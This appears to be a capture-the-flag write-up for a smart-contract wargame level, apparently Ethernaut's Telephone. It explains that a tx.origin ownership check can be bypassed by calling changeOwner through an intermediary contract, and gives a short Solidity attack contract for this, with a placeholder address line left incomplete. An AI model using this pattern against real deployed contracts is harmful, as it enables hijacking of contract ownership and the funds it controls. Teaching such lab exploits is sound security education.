


Challange:

Claim ownership of the contract below to complete this level.



Solution:

This is quite simple, we just need to call the changeOwner function from other contract so that the tx.origin is not equal to msg.sender since the msg.sender will be the address of the caller instead of EOA address.

We can use the following code to simply call the function using our address:

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Telephone {
    address public TARGET = 0x94A569b60D35074d84dFB525046E5905173161A2;
    address public ADDRESS = YOUR_ADDRESS

    function sendTransaction() public {
        (bool success, ) = TARGET.call(abi.encodeWithSignature("changeOwner(address)", ADDRESS));
        require(success, "Error Transaction");
    }
}
```


